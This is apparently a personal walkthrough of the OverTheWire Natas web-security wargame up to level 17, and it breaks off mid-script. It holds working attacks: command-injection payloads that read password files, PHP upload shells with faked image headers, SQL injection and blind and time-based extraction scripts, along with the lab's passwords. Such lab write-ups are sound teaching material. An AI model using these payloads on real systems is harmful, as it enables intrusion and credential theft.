# Natas - OverTheWire
My writeups for levels 0 to 28 of the Natas Labs from [overthewire](http://www.overthewire.org/).

## 0 Level 0

- The introductory page for `Level0` gives us the url format: `natasX.natas.labs.overthewire.org`, where `X` is the level number
- It also states that all passwords are stored in `/etc/natas_webpass/` under a file named after the corresponding level.
- The `username` and `password` are also provided for this level.
- We can visit the url: [natas0.natas.labs.overthewire.org](http://natas0.natas.labs.overthewire.org), enter the mentioned credentials and reach the next stage.

## 1 Level 0 → Level 1

- The `natas0` page states the following:

    > You can find the password for the next level on this page.

- Obviously, the password is not present on the page itself. On viewing the page source, we see that the password for `Level 1` is present as a comment on the webpage, inside the `div` element with id `content`.
- Password

    gtVrDuiDfck831PqWsLEZy5gyDz1clto

## 2 Level 1 → Level 2

- The `natas1` landing page says the following:

    > You can find the password for the next level on this page, but right-clicking has been blocked!

- However, the webpage isn't well-written as the right-clicking is only blocked within the `div` that shows the above message. We can still right-click outside this block. Nevertheless, to abide by the specification, we shall refrain from right-clicking.
- First, we open the `Source Page` for `natas0` and then, edit the address on the `URL pane` from `view-source:http://natas0.natas.labs.overthewire.org/` to `view-source:http://natas1.natas.labs.overthewire.org/`. This should retrieve the source of `natas1`'s page. A comment on the source reveals the password for the next level.
- Password

    ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## 3 Level 2 → Level 3

- The `natas2` landing page states the following:

    > There is nothing on this page

- Of course, we don't believe the above message and so, we view the source for this page.
- The only thing interesting on the source page is a link to the image at `files/pixel.png`. Let's see if we have access to any other *files* on the `natas2` server.
- When we visit: `natas2.natas.labs.overthewire.org/files`, we see that there is a file called `users.txt`. This file contains the password for `natas3`.
- Password

    sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

## 4 Level 3 → Level 4

- The `natas3` landing page says the following:

    > There is nothing on this page

- Again, we shall view the page source, just to confirm.
- The page source doesn't add much information, except to include a comment the following:

    > No more information leaks!! Not even Google will find it this time...

- The only way the password wouldn't be leaked even from Google is if the file has not *permitted* to be indexed by search engines. This is specified in a file called *robots.txt* on any server. Let's have a look at this file if we indeed have access to this file.
- On accessing the file, we see a directory called `/s3cr3t/` listed on the `Disallow` list. On visiting this directory on the server, shows us another `users.txt` file that contains the password for `natas4`.
- Password

    Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## 5 Level 4 → Level 5

- The `natas4` landing page states the following:

    > Access disallowed. You are visiting from "" while authorized users should come only from "[http://natasnatas.labs.overthewire.org/](http://natasnatas.labs.overthewire.org/)"

- The above message has something to do with the `Referer` header common to most webpages. This header contains information as to what previous page led us to the current page. Apparently, we need this header to contain the `natas5` url.  As we cannot edit this header through the browser, we need to use an application called `Burp Suite` that ships with Kali Linux. A tutorial on using this application can be found [here](https://blog.tryhackme.com/setting-up-burp/).
- After following all the basic setup instructions for allowing `Burp Suite` to proxy all the network connections, we try to open the `natas4` landing page again. This time, the page does not load, but `Burp Suite` shows the request headers in its `Proxy` tab.
- We then select the `Action` button on the `Proxy` tab and then select `Send to Repeater`.

    

    Setting up a proxy and analyzing the headers with Burp Suite

- We can  now edit the request headers, by navigating through `Repeater`> `Request` > `Headers` > `Add` and then, adding in the header named `Referer` with the url for `natas5` as the value.

    

    Adding the `Referer` Header to the `Request`. Erratum: the value must be http://natasnatas.labs.overthewire.org/

- Clicking on the `Send` Button will now show us the response HTML with the password for level 5, in the `Response` section.
- Password

    iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## 6 Level 5 → Level 6

- The `natas5` landing page says the following:

    > Access disallowed. You are not logged in

- One way websites authorize visitors to certain webpages is by setting up cookies with certain "unique" values so that users can be identified. This is what *logging in* entails and allows users the convenience of visiting websites without having to provide his/her login credentials every single time.
- When we analyze the cookies for the `natas5` login page by `inspect`-ing the webpage, we can see a new cookie called `loggedin`. The most interesting property for this cookie is the `value` property, which has been set to 0. When we edit the cookie value to `1`, and then reload the page, it reveals the login credentials for `natas6`.
- Password

    aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## 7 Level 6 → Level 7

- The `natas6` landing page contains a simple form with a `Submit Query` button.
- The page also contains a link to view the source code. The source code reveals the `PHP` code running at the server that verifies the input query and then sends us the password for `level7`.

    ```php
    <?
    include "includes/secret.inc";

        if(array_key_exists("submit", $_POST)) {
            if($secret == $_POST['secret']) {
            print "Access granted. The password for natas7 is <censored>";
        } else {
            print "Wrong secret";
        }
        }
    ?>
    ```

- Injecting queries into the form element named `secret` does not work and it shows `Wrong Secret` each time one tries to inject.
- However, the source also reveals an interesting file `includes/secret.inc`. When we visit this file on the server, it reveals a blank webpage, but on inspecting this blank webpage, we see that the password for `natas7` is mentioned as a comment on the source.
- Password

    7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## 8 Level 7 → Level 8

- The `natas7` landing page shows two links: `Home` and `About` that do pretty much nothing.
- However, when we do click on them, the url changes and the following gets appended to the existing url:

    index.php?page=home

- This represents a `GET` query that effectively gets the `home` page from the server.
- On viewing the page source, we see the following hint written as a comment:

    > hint: password for webuser natas8 is in /etc/natas_webpass/natas8

- So, we try to `GET` the contents of this file by editing the url as follows:

    natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

- Visiting the above URL gives us the password for `natas8`.
- Password

    DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## 9 Level 8 → Level 9

- Much like in the `natas6` landing page, the landing page for `natas8` also shows a simple form wherein we are required to submit some query, and a link to view the source code.
- The source code shows the following `php` code running at the server side:

    ```php
    <?

    $encodedSecret = "3d3d516343746d4d6d6c315669563362";

    function encodeSecret($secret) {
        return bin2hex(strrev(base64_encode($secret)));
    }

    if(array_key_exists("submit", $_POST)) {
        if(encodeSecret($_POST['secret']) == $encodedSecret) {
        print "Access granted. The password for natas9 is <censored>";
        } else {
        print "Wrong secret";
        }
    }
    ?>
    ```

- The above code simply checks whether the *encoded* version of the query we submit matches the value held by `$encodedSecret` and if it does, it returns the password for `natas9`.
- The encoding of the query takes place in three steps, in order:
    - `base64_encode`: applies base64 encoding on the query
    - `strrev`: reverses the string generated from the encoding
    - `bin2hex`: converts the binary result to hex
- Our task is to find the value of the `query` which when passed through the above encoding steps results in the value stored in `$encodedSecret`.
- This can be achieved by reversing the order of the above functions and using the inverse of each function, as follows:

    $$\$encodedSecret=bin2hex(strrev(base64\_encode(\$query)))\newline
     \implies\$query = base64\_decode(strrev(hex2bin(\$encodedSecret)))$$

- The above process can be carried out in `php` as follows:

    ```php
    <?php     
    $encodedSecret = "3d3d516343746d4d6d6c315669563362";

    function decodeSecret($encodedSecret) {
        // original: bin2hex(strrev(base64_encode($secret)));
        return base64_decode(strrev(hex2bin($encodedSecret)));
    }

    echo decodeSecret($encodedSecret);
    echo "\n";

    ?>
    ```

    Or, in `python` as follows:

    ```python
    import base64

    encodedSecret = "3d3d516343746d4d6d6c315669563362"
    print(f"Encoded Secret: { encodedSecret }")

    bytesSecret = bytes.fromhex(encodedSecret)
    print(f"In Bytes: { bytesSecret }")

    reverseSecret = bytesSecret[::-1]
    print(f"Reversed: { reverseSecret }")

    decodedSecret = base64.b64decode(reverseSecret)
    print(f"Decoded: { decodedSecret }")
    ```

    

    Output of the python code to find the right query string

- Entering the final output to the `input` section of the form reveals the password to the next level.
- Password

    W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## 10 Level 9 → Level 10

- The `natas9` landing page shows yet another form, and a link to view the source code.
- On viewing the source code, we come across the following `php` code:

    ```php
    <?
    $key = "";

    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }

    if($key != "") {
        passthru("grep -i $key dictionary.txt");
    }
    ?>
    ```

- This code checks if the posted `request` contains the `needle` parameter, searches for the non-empty value of this parameter in a file called `dictionary.txt`, and then displays the results of the search. This can be easily tested by typing in a word in the `input` field.
- We can also have a look at the `dictionary.txt` file on the server. However, this file does not contain the password to `natas10`. In any case, searching for a potential password in this file would be like searching for a needle in a haystack (*pun intended*).
- We, however, see that the value of `$key` that holds our input query gets passed on to a Linux Shell with the command `grep -i $key dictionary.txt`.
- We can exploit this by using `command injection`. We can inject linux commands into the query that will then be executed on the server with the privileges of the host.
- We  need the password to `natas10` and we know that this password is located in the file: `/etc/natas_webpass/natas10`.
- Hence, we inject the following command in the `input` field:

    ; cat /etc/natas_webpass/natas10;

- This reveals the password.
- Password

    nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## 11 Level 10 → Level 11

- `natas10` is similar to `natas11` with one major difference between them. In `natas10`, some characters cannot be used in the `input` field as they are deemed illegal. This can be seen from the source code:

    ```php
    <?
    $key = "";

    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }

    if($key != "") {
        if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i $key dictionary.txt");
        }
    }
    ```

- As we can see from the above code, specifically the line: `preg_match('/[;|&]/',$key)`, that the code checks for the presence of `;`, `|` and/or `&` characters in the `input` query, and if present, displays the message `Input contains an illegal character!` instead of *relaying* our query into the Linux Shell.
- This means that we are not allowed to execute multiple commands simultaneously using `;`, pipe the output of one command to another using `|`, and chain multiple commands using `&`.
- However, the `grep` command supports finding patterns on multiple files. We can leverage this feature by searching for characters in the file `/etc/natas_webpass/natas11`, that is known to contain the required password. However, we have to employ hit-and-trial until we *hit* a character that is contained in the password for `natas11`. Once injected, the `grep` command will search for a text in both the `natas11` and the `dictionary.txt` files.
- Hence, the `input query` will be as follows:

    f /etc/natas_webpass/natas11 

    The letter `f` was arrived at by first testing for each of the letters from `a` through `e`. Alternatively, we could check for numbers. The command is case insensitive so we don't have to check for uppercase and lowercase letters separately.

- Password

    U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

## 12 Level 11 → Level 12

- The `natas11` landing page tells us the following:

    > Cookies are protected with XOR encryption

    It also provides a form and a link that allows us to view the source code.

- The `php` source code is as follows:

    ```php
    // this portion sets the cookies
    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"##ffffff");
    function xor_encrypt($in) {
        $key = '<censored>';
        $text = $in;
        $outText = '';
        // Iterate through each character
        for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }
        return $outText;
    }
    function loadData($def) {
        global $_COOKIE;
        $mydata = $def;
        if(array_key_exists("data", $_COOKIE)) {
        $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
        if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
            if (preg_match('/^##(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
            $mydata['showpassword'] = $tempdata['showpassword'];
            $mydata['bgcolor'] = $tempdata['bgcolor'];
            }
        }
        }
        return $mydata;
    }
    function saveData($d) {
        setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
    }
    $data = loadData($defaultdata);
    if(array_key_exists("bgcolor",$_REQUEST)) {
        if (preg_match('/^##(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
            $data['bgcolor'] = $_REQUEST['bgcolor'];
        }
    }
    saveData($data);

    // this portion checks the cookies
    if($data["showpassword"] == "yes") {
        print "The password for natas12 is <censored><br>";
    }
    ```

- There are, thus, two distinct portions in the code. A portion that sets and saves the cookies and a portion that checks the cookies.
- The portion that sets the cookies, takes the `$defaultdata`, `XOR`s it with a key and then, `base64`-encodes it.
- The part that checks the cookies checks if the `showpassword` field in the decoded cookie contains the string `yes`. If it does, the password for the next level is displayed.
- Thus, we must encode our own `$data` where the `showpassword` field is set to `yes`. But for this we need to first find the key with which the original data was `XOR`-ed, In the code shown above, the key is hidden(`<censored>`).
- The only way to find the key is to brute force it since we have the `encoded cookie` value from our browser and the plaintext `data` from the source code. The code to achieve this is as follows:

    ```python
    from base64 import b64decode
    from string import ascii_uppercase, ascii_lowercase

    ## the cookie value in the browser ends with %3D, this is browser-speak for '='
    encoded_data = b"ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw="
    decoded = b64decode(encoded_data)
    plain_data = b'{"showpassword":"no","bgcolor":"##ffffff"}'
    print(f"Given Array: { plain_data }")
    print(f"Size: { len(plain_data) }")
    print(f"Given Cookie Data: { encoded_data }")
    print(f"Size: { len(encoded_data) }")
    print(f"Decoded Cookie Data: { decoded }")
    print(f"Size: { len(decoded) }")

    options = bytes(ascii_uppercase + ascii_lowercase + '0123456789', 'ascii')
    print(f"Options: { options }")

    plain_data_size = len(plain_data)
    options_size = len(options)

    key = ""	
    for i in range(plain_data_size):
        for j in range(options_size):
    	if plain_data[i] ^ options[j] == decoded[i]:
    	    character = chr(options[j])
    	    key += character	
    	    break

    print(f"Key used: { key }")
    ```

    

    The output of the above python code. Notice that the decoded cookie and the given array have the same length, in bytes

- Having found the key to be `qw8J`, we can now edit the original source code and use it to find the new cookie value, as follows:

    ```php
    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"##ffffff");
    $data = $defaultdata;
    $data["showpassword"] = "yes";

    function xor_encrypt($in) {
        $key = "qw8J";
        $text = $in;
        $outText = '';
        // Iterate through each character
        for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }
        return $outText;
    }
    function saveData($d) {
        return base64_encode(xor_encrypt(json_encode($d)));
    }
    echo saveData($data);
    echo "\n";
    ```

- After replacing the value of `data` cookie in the browser with the value generated by the above code, we can refresh the page and get the password to `natas12`.
- Password

    EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## 13 Level 12 → Level 13

- The `natas12` landing page asks us to upload a `jpg` file whose size is below 1KB. It also provides us the option to view the source code.
- The source code for this level is not directly helpful. The gist of the code is that, it takes whatever *jpeg* file we upload, generates a random name for it and stores it inside the `upload` directory on the server.
- On inspecting the source for the HTML of the page, we can see that there is a hidden input form, with the following specs:

    ```html
    <form enctype="multipart/form-data" action="index.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
    <input type="hidden" name="filename" value="zc8rossbdl.jpg" />
    Choose a JPEG to upload (max 1KB):<br/>
    <input name="uploadedfile" type="file" /><br />
    <input type="submit" value="Upload File" />
    </form>
    ```

- We can see that the default `filename` for any file that we upload would be `zc8rossbdl.jpg` under these specifications. The server `php` uses the extension for this filename to set the extension for the random filename it generates.
- When we upload a random image of size < 1KB to the server, it shows the filename generated and allows us to view the image. One can surmise that the image being opened(executed?) by the server.
- Now, as the server operates with `php` code, it may be possible to edit the default extension of the filename to `php` and then, sending our own `php` code that may then be executed when we open it.
- One possible code is as follows:

    ```php
    <?php

    $password = file_get_contents('/etc/natas_webpass/natas13');
    echo $password;

    ?>
    ```

- Once we edit the extension in the `value` attribute of the hidden `input` field, and then upload the above `php` file, it will be successfully uploaded, and when we open up the file, we should see the password being displayed.
- Password

    jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## 14 Level 13 → Level 14

- This level is quite similar to [Level 12 -> Level 13](##13-Level-12-→Level-13) in that we are required to upload a `jpeg` image. However, the landing page for `natas13` also states the following:

    > For security reasons, we now only accept image files!

- So, we cannot just upload a `php` file by editing the HTML source for the page. A closer look at the source code, however, reveals the following piece of code (the part that is different from the code for the previous level has been highlighted and underlined):

    ```php
    ...
    else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
            echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
            echo "File is not an image";
    } else {
    	if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
                echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
            } else{
                echo "There was an error uploading the file, please try again!";
            }
    }
    ...
    ```

- As we can see the source code uses `exif_imagetype` to verify that the uploaded file is indeed an image file. This does not, however, check for the actual image headers and instead checks for some `magic number` at the beginning of the file.
- For `jpeg` file, the function checks for the presence of the following byte sequence:

    FF D8 FF E0

- All we have to do now is to put these bytes at the top of our `php` code, edit the HTML source to edit the filename to have an extension of `.php` as before, and then, upload the code. The file will, thus, have bypassed the `exif_imagetype` check.
- The code to create the `php` file is as follows:

    ```python
    ## write the magic bytes, open file in binary mode
    f = open('level13.php', 'wb')
    f.write(b'\xFF\xD8\xFF\xE0')
    f.close()
    ## append the php code
    f = open('level13.php', 'a')
    f.write('<?php $pass = file_get_contents("/etc/natas_webpass/natas14");
    	echo "password= ".$pass; ?>')
    f.close()
    ```

- After uploading and opening the `level13.php` file created from the above code, we should be able to see the password for `natas14`.
- The output, however, will also display the four bytes of the `magic number`. This is because anything outside the `php` tags are echoed as is by the server to the browser. These bytes may not be rendered and question marks(?) may be displayed instead.
- Password

## 15 Level 14 → Level 15

- The landing page for `natas14` shows us a `post` form with the fields `username` and `password`.
- We also have access to the `php` source code:

    ```php
    <?
    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas14', '<censored>');
        mysql_select_db('natas14', $link);
        
        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        if(mysql_num_rows(mysql_query($query, $link)) > 0) {
                echo "Successful login! The password for natas15 is <censored><br>";
        } else {
                echo "Access denied!<br>";
        }
        mysql_close($link);
    } else {
    ?>
    ```

- As we can see there are no checks for the input query, and whatever we input in the `username` and `password` are directly integrated as part of the `$query` and executed on the `MySQL` server.
- Thus, we can perform a simple SQL injection to bypass the `username` and `password` checks, with the following entries:

    username: " OR 1=1 ##
    password: 

- This should reveal the password for `natas15`.
- Password

    AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

## 16 Level 15 → Level 16

- The landing page for `natas15` shows a form with the field `username`.
- By looking at the `php` source code, we can see that the code is written so that the server echoes `user exists` if our query is correct and returns some number of rows and `user does not exist` when our query does not return any rows.
- Hence, we can perform `Blind Injection` on the `username` field.
- From the source code, we know that the table contains two fields: `username` and `password`.
- Let's check if there is a user named `natas16`, since we need its password. When we enter `natas16` in the `username` field, it says that the user exists.
- Now, we must determine the length of the password by using the `LENGTH()` function and then, using hit and trial, by injecting the following:

    natas16" AND LENGTH(password) > 10 ## ⇒ user exists
    natas16" AND LENGTH(password) > 20 ## ⇒ user exists
    ...
    natas16" AND LENGTH(password) > 33 ## ⇒ user does not exist
    natas16" AND LENGTH(password) = 32 ## ⇒ user exists*

- Now, we must brute force the 32-character password by using `SUBSTR()` function and binary search. By default, as the password column is of type `VARCHAR`, any comparison operations performed on it are **case-insensitive**. Hence, we must perform comparisons using the `BINARY` keyword. This does, however, incur a performance hit.
- From the password pattern of the previous levels, we can guess that the password may contain uppercase and lowercase letters, and numbers. The code to automate this process is as follows:

    ```python
    from bs4 import BeautifulSoup as soup
    import re
    import requests
    from string import ascii_lowercase, ascii_uppercase

    url = 'http://natas1natas.labs.overthewire.org'

    auth = ('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

    alphabet = '0123456789' + ascii_uppercase + ascii_lowercase

    def check(inject, verbose=False):
        data = {'username': inject}
        response = requests.post(url, data=data, auth=auth)
        clean = soup(response.content, "lxml")
        text = clean.body.get_text("\n")
        if verbose:
    	print(inject)
    	## print(text)
        if re.search("exists", text):
    	returned = 1
        else:
    	returned = 0
        return returned

    	
    def search(alphabet, lo, hi, position, verbose=False):
        if hi < lo:
    	return "Not found"
        index  = (hi + lo) // 2
        inject_greater = 'natas16" AND BINARY substr(password, ' + str(position) + ', 1) > "' + alphabet[index] + '" ##'
    	
        inject_equal = 'natas16" AND BINARY substr(password, ' + str(position) + ', 1) = "' + alphabet[index] + '" ##'
    	
        inject_less = 'natas16" AND BINARY substr(password, ' + str(position) + ', 1) < "' + alphabet[index] + '" ##'
        if check(inject_equal, verbose):
    	return alphabet[index]
        elif check(inject_greater, verbose): 
    	return search(alphabet, index + 1, hi, position, verbose)
        elif check(inject_less, verbose):
    	return search(alphabet, lo, index - 1, position, verbose)
        else:
    	return "Something went wrong"
    	 
    position = 1
    password = ""
    verbose = False
    while True:

        result = search(alphabet, 0, len(alphabet)-1, position, verbose)	
        print(f"RESULT: { result } ") 
        if len(result) > 1:
       	break

        password += str(result)
        position += 1

    print(f"The password for natas16 is { password }")
    ```

- The output for the above code is as follows:

    

    The result of brute-forcing the password. You can see that there are exactly 32 characters!

- Alternatively, one can use `sqlmap` to perform the above operation. A detailed walk-through for this is available [here](https://medium.com/hacker-toolbelt/natas-15-sql-injection-with-sqlmap-66cb4f89e3f7).
- Password

    WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

## 17 Level 16 → Level 17

- The landing page for `natas16` says the following:

    > For security reasons, we now filter even more on certain characters

- Sure enough, when we check the source code for this level, we can see that `preg_match` has been used to filter out `;`, `'`, `"`, `&`, and  `|`. Furthermore, whatever we supply as an input query on the form gets enclosed within double quotes (`"`). This severely limits our options.

    ```php
    if($key != "") {
        if(preg_match('/[;|&`\'"]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i \"$key\" dictionary.txt");
        }
    }
    ```

- Fortunately, we can still inject Linux commands within the quotes that do not consist of the blacklisted characters, by enclosing the command within `$()`. The output of the command we enclose within these parentheses becomes enclosed within double quotes which the outer `grep` command searches for in `dictionary.txt`. For example:

    ```bash
    $ grep -i "$(echo hacking)" dictionary.txt
    ## the above can be broken down as follows:
    $ echo hacking
    hacking
    ## the command `echo hacking` outputs hacking
    ## this output gets inserted into the original `grep` command *within* double quotes
    $ grep -i "hacking" dictionary.txt
    ## this outputs all dictionary entries with the substring 'hacking'
    ```

- Now, all we have to do is find the right command to inject, one that does not involve the usage of any of the blacklisted characters.
- A possible candidate is the `grep` command itself. We shall use this command to check for letters present in `/etc/natas_webpass/natas17`. Consider the following toy example:

    ```bash
    $ touch dictionary.txt
    $ echo "hello" >> dictionary.txt ## dictionary.txt now contains the word 'hello'
    $ echo "hi" >> dictionary.txt ## dictionary.txt now contains 'hello' and 'hi'
    $ touch example.txt
    $ echo 'e' >> example.txt ## example.txt now contains the letter 'e'

    $ grep a example.txt ## returns nothing as the text file does not contain 'a'
    $ grep e example.txt ## returns 'e' as 'e' matches with the 'e' in example.txt
    e
    $ grep -i "$(grep a example.txt)" dictionary.txt
    hello
    hi
    ## returns hello because the `grep a example.txt` returns `nothing`
    ## `nothing` is contained within every string in the file, so the contents are displayed
    $ grep -i "$(grep e example.txt)" dictionary.txt
    hello
    ## returns hello because the inner `grep` returns 'e' and 'e' is present in 'hello'
    $ grep -i "$(grep e example.txt)ll" dictionary.txt
    hello
    ## inner grep returns 'e' which gets concatenated with 'll' to form 'ell'
    ## 'ell' is present in hello
    $ grep -i "$(grep a example.txt)i" dictionary.txt
    hi
    ## the inner `grep` returns nothing, which gets concantenated with `i`
    ## `i` is contained in the word `hi` and is returned

    ## Note: the underlining is only shown here for clarity, they're not shown in the actual terminal
    ```

- For our purposes, however, it is not enough that we know what letters are present in the `/etc/natas_webpass/natas17` file. We must also know in what  order they are present. Hence, we must use the `^` character. It marks the beginning of the matching text in regex. For example, `abc` matches with `zabc` but `^abc` does *not* match with `zabc` as `a` is not the first character in `zabc`.
- All of the above observations are incorporated in the following program

    ```bash
    import re
    import requests
    from string import ascii_uppercase, ascii_lowercase

    ## by looking at the passwords so far,
    ## it is likely that the password contains more lowercase characters
    ## followed by uppercase, and then numbers
    alphabet = ascii_lowercase + ascii_uppercase + '0123456789'

    auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

    url = 'http://natas16.natas.labs.overthewire.org'

    password = ''

    pattern = '^'

    directory = ' /etc/natas_webpass/natas17'
    ## the string to search for if there is no match in the password file
    constant = 'haystacks'

    ## check only for 32 characters because all the passwords so far have only 32 characters
    for i in range(32):
        for character in alphabet:
    	full_pattern = pattern + password + character
    	payload = "$(grep " + full_pattern + directory + ")" + constant
    	data = {"needle":payload}
    	response = requests.post(url, data=data, auth=auth)
    	
    	## because "haystacks" is appended to the end
    	## if there is no match, haystacks will be present in the result
    	if re.search("haystacks", response.text):
    		continue

    	password += character
    	print(f"Character { i } = { character }")
    	break

    print(f"The password for natas17 is { password }")
    ```

- With a total possibility space in the order $10^{57}$, this brute force approach can be computationally expensive, so the characters are checked in order of their frequencies, the most likely characters checked first. Of course, we have no definite way of knowing this but looking at the passwords so far, one can guess that there are more lowercase characters than uppercase characters which are then more than the numbers. This turned out to be a successful approach and resulted in significant improvements in speed.
- Furthermore, the word `haystacks` is appended at the end so that when the inner `grep` returns nothing (due to no match), the outer `grep` searches for `haystacks`. When the inner `grep` does return a result (the password), `haystacks` gets appended to it and does not return any result as no such entry would exist in the dictionary. Furthermore, the word `haystacks` has only one entry in the dictionary. And even this speeds up the search by narrowing the search space.
- The output of the above program is as follows:

    

- Password

    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

## 18 Level 17 → Level 18

- The landing page for `natas17` is similar to that for [natas15](##16-Level-15-→-Level-16) but with one major difference: the server does not tell us whether the query we entered into the `username` field returned any rows. Moreover, the `php` code on the server is written so that the query we enter into the field is inserted within double quotes(`"`).
- As we have no way of telling whether the query was correct, we have to find a workaround. One way to check if the query we entered was *correct* is to use the `SLEEP()` function and the end of the `WHERE` clause joined using an `AND`. What this does is that if the preceding conditions are matched, it tells the server to wait for a certain amount of time before sending the response. If the preceding conditions are not met, there is an immediate response as the `SLEEP()` function is not executed. The timing of the response can thus be used as the parameter to check whether our query was correct.
- The query format we will be using is:

    natas18" AND BINARY SUBSTR(password, 1, 1) = 'a' AND SLEEP(5) ##

- The code to automate this process is as follows:

    ```python
    import requests
    from string import ascii_lowercase, ascii_uppercase

    url = 'http://natas17.natas.labs.overthewire.org'

    auth = ('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')

    alphabet = '0123456789' + ascii_uppercase + ascii_lowercase

    threshold = 3

    def check(inject, verbose=False):
        data = {'username': inject}
        response = requests.post(url, data=data, auth=auth)

        if verbose:
    	print(inject)

        if response.elapsed.total_seconds() > threshold:
      	returned = 1
        else:
     	returned = 0
        return returned

    	
    def search(alphabet, lo, hi, position, verbose=False):
        if hi < lo:
    	return "Not found"
        index  = (hi + lo) // 2
        inject_greater = 'natas18" AND BINARY substr(password, ' + str(position) + \
    ", 1) > '" + alphabet[index] + "' AND SLEEP(5) ##"
